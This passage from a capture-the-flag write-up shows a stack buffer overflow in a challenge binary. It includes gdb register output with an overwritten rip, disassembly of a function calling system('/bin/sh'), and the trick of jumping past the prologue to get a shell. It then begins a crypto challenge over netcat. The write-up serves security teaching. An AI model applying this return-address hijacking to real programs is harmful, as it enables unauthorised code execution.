 We can print all the registers with the `info registers` (short: `i r`) command:
```
(gdb) info registers
rax            0x48                72
rbx            0x4002e0            4195040
rcx            0x4339c0            4405696
rdx            0x6b4720            7030560
rsi            0x7fffffff4750      140737488308048
rdi            0x0                 0
rbp            0x4242424242424242  0x4242424242424242
rsp            0x7fffffff6de8      0x7fffffff6de8
r8             0x6b6880            7039104
r9             0x48                72
r10            0xffffffffffffffff  -1
r11            0x246               582
r12            0x401770            4200304
r13            0x401800            4200448
r14            0x0                 0
r15            0x0                 0
rip            0xdeadbeef          0xdeadbeef
eflags         0x10206             [ PF IF RF ]
cs             0x33                51
ss             0x2b                43
```

As you can see, we overwrote rbp and rip. We can now set rip to whereever we want and the code execution will continue from there. If you opened the binary in Ghidra or IDA, you probably noticed the shell function. It calls `system` with `/bin/sh` as param. 

```
.text:0000000000400B83 shell           proc near
.text:0000000000400B83 ; __unwind {
.text:0000000000400B83                 push    rbp
.text:0000000000400B84                 mov     rbp, rsp
.text:0000000000400B87                 lea     rdi, aBinSh     ; "/bin/sh"
.text:0000000000400B8E                 call    system
.text:0000000000400B93                 nop
.text:0000000000400B94                 pop     rbp
.text:0000000000400B95                 retn
.text:0000000000400B95 ; } // starts at 400B83
```

**Setting rip to 0x400B83 (start of shell function) won't work!** Why? Because we are overwriting rbp (stack base pointer) with some random value which won't be valid. We can get around that by just jumping to the call and parameter setup at `0x400B87` directly. Now it works and we get flag. 

## Crypto

### Homemade Crypto

We can connect to a server and encrypt or decrypt something. Let's try to decrypt the flag.
```
$ nc game.sigflag.at 3004
What would you like to do ?
[1] Encrypt something
[2] Decrypt something
[3] Shut down
--> 2
Please enter your encrypted message
--> 0xbfda36fe05ae4e94fa2e9ff4ea5e655222dcef4fd5da2044f04d7d4af250
ERROR: Refusing to decrypt flags for security reasons
```
